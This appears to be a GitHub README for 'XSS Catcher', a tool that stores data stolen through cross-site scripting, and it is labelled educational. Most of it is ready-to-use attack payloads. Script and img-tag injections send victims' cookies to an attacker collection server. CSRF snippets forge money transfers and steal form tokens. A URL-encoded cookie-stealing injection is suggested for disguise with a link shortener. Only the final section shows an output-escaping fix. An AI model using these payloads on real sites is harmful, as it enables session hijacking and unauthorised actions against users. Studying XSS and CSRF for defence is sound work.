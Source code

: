 # XSS Catcher

Simple API for storing all incoming XSS requests.

Every incoming XSS request must contain `site` and `data` (i.e. stolen data) request parameters. Additionaly, you can add the `info` request parameter.

**This topic is very broad and only few client side injections were covered. Keep in mind that XSS is not limited only to JavaScript.**

Play with the given examples and make your own (possibly shorter).

Tested on XAMPP for Windows v7.4.3 (64-bit) with Chrome v80.0.3987.149 (64-bit) and Firefox v74.0 (64-bit).

Made for educational purposes. I hope it will help!

## How to Run

Import [\\db\\xss_catcher.sql](https://github.com/ivan-sincek/xss-catcher/blob/master/db/xss_catcher.sql) to your database server.

Copy all the content from [\\src\\](https://github.com/ivan-sincek/xss-catcher/tree/master/src) to your server's web root directory (e.g. to \\xampp\\htdocs\\ on XAMPP).

Change the database settings inside [\\src\\php\\config.ini](https://github.com/ivan-sincek/xss-catcher/tree/master/src/php/config.ini) as necessary.

Navigate to your database panel with your preferred web browser.

You can use [ngrok](https://ngrok.com/) to give your XAMPP a public address.

---

On web servers other than XAMPP (Apache) you might need to load `Multibyte String` librabry within PHP.

In XAMPP it is as simple as uncommenting the `extension=mbstring` line in the `php.ini` file.

## Cross-Site Scripting

Usually used to steal data or to modify a web page.

**HTTP cookies must be missing the HttpOnly flag in order for you to steal them.**

Steal HTTP cookies by injecting the following JavaScript code:

```xhtml
<script>var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://myserver.com/store.php', true); xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); xhr.send('site=' + encodeURIComponent(location.hostname + location.pathname) + '&data=' + encodeURIComponent(document.cookie));</script>

<script>var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://myserver.com/store.php', true); xhr.send('{\"site\": \"' + encodeURIComponent(location.hostname + location.pathname) + '\", \"data\": \"' + encodeURIComponent(document.cookie) + "\"}");</script>
```

First example above will send an HTTP POST request to your server with user-defined parameters as form-data. Opt for this example whenever possible.

To send user-defined parameters as form-data, you must add the `Content-Type: application/x-www-form-urlencoded` HTTP request header.

Second example above will send an HTTP POST request to your server with raw data encoded in JSON.

Steal HTTP cookies by injecting the following HTML code:

```xhtml
<img src="https://github.com/favicon.ico" alt="xss" onload="var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://myserver.com/store.php', true); xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); xhr.send('site=' + encodeURIComponent(location.hostname + location.pathname) + '&data=' + encodeURIComponent(document.cookie));" hidden="hidden">

<img src="https://github.com/favicon.ico" alt="xss" onload="this.src = 'https://myserver.com/store.php?site=' + encodeURIComponent(location.hostname) + location.pathname + '&data=' + encodeURIComponent(document.cookie);" hidden="hidden">
```

First example above will send an HTTP POST request to your server with user-defined parameters as form-data.

Second example above will send an HTTP GET request to your server with user-defined parameters in a query string (i.e. in a URL).

## Cross-Site Request Forgery

You do not necessarily need to steal HTTP cookies or modify web forms. The goal is to just execute a forged query string in the name of a signed-in user.

The simplest way to do so, is to send an email to the victim containing link such as `https://target.com/transfer.php?recipient=eve&amount=9000` (limited to HTTP GET request) or to store/hide the code in either the target website or your own website and then send the less suspicious link.

**Try to figure out what kind of data does the backend server accept before you try to forge/send anything. Is it a query string, form-data, raw data encoded in JSON, etc.?**

Plant a forged request by injecting the following JavaScript code:

```xhtml
<script>var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://target.com/transfer.php', true); xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); xhr.send('recipient=eve&amount=9000');</script>
```

Example above will send an HTTP POST request to the target server in a victim's name with user-defined parameters as form-data.

Plant a forged request whilst stealing a web form token by injecting the following JavaScript code:

```xhtml
<script>window.onload = function() { var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://target.com/transfer.php', true); xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); xhr.send('recipient=eve&amount=9000&token=' + encodeURIComponent(document.getElementsByName('token')[0].value)); }</script>

<script>window.onload = function() { var xhr = new XMLHttpRequest(); xhr.open('GET', 'https://target.com/transfer.php?recipient=eve&amount=9000&token=' + encodeURIComponent(document.getElementsByName('token')[0].value), true); xhr.send(); }</script>
```

First example above will send an HTTP POST request to the target server in a victim's name with user-defined parameters as form-data.

Second example above will send an HTTP GET request to the target server in a victim's name with user-defined parameters in a query string (i.e. in a URL).

To steal a web form token or any other web form data, you must wait for the web form to fully render/load. You can do that by calling the `window.onload` event.

Plant a forged request by injecting the following HTML code:

```xhtml
<img src="https://target.com/transfer.php?recipient=eve&amount=9000" alt="xss" hidden="hidden">

<img src="https://github.com/favicon.ico" alt="xss" style="background-image: url('https://target.com/transfer.php?recipient=eve&amount=9000');" hidden="hidden">
```

Both examples above will send an HTTP GET request to the target server in a victim's name with user-defined parameters in a query string (i.e. in a URL).

Plant a forged request by injecting the following CSS code:

```xhtml
<style>div { background-image: url('https://target.com/transfer.php?recipient=eve&amount=9000'); }</style>
```

Example above will send an HTTP GET request to the target server in a victim's name with user-defined parameters in a query string (i.e. in a URL).

## Proof of Concept - No Input Sanitization

This proof of concept shows how to steal cookies through unsanitized HTTP request parameter.

Vulnerable code:

```xhtml
<script>var language = '<?php if (isset($_GET["language"])) { echo $_GET["language"]; } ?>';</script>
```

Expected use:

```xhtml
<script>var language = 'en';</script>
```

User-supplied data:

```fundamental
en'; var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://myserver.com/store.php', true); xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); xhr.send('site=' + encodeURIComponent(location.hostname + location.pathname) + '&data=' + encodeURIComponent(document.cookie)); var test = '
```

**Always make sure to properly close the surrounding code.**

Encode your code to the URL encoded format [here](https://www.urlencoder.org).

Final XSS request:

```fundamental
https://localhost/welcome.php?language=en%27%3B%20var%20xhr%20%3D%20new%20XMLHttpRequest%28%29%3B%20xhr.open%28%27POST%27%2C%20%27https%3A%2F%2Fmyserver.com%2Fstore.php%27%2C%20true%29%3B%20xhr.setRequestHeader%28%27Content-Type%27%2C%20%27application%2Fx-www-form-urlencoded%27%29%3B%20xhr.send%28%27site%3D%27%20%2B%20encodeURIComponent%28location.hostname%20%2B%20location.pathname%29%20%2B%20%27%26data%3D%27%20%2B%20encodeURIComponent%28document.cookie%29%29%3B%20var%20test%20%3D%20%27
```

Optionally, you can shorten query strings (i.e. URLs) with [Bitly](https://bitly.com).

Solution (output escaping):

```xhtml
<script>var language = '<?php if (isset($_GET["language"])) { echo htmlentities($_GET["language"], ENT_QUOTES, "UTF-8"); } ?>';</script>
```

## Images

<p align="center"><img src="https://github.com/ivan-sincek/xss-catcher/blob/master/img/db.jpg" alt="Database"></p>

<p align="center">Figure 1 - Database</p>
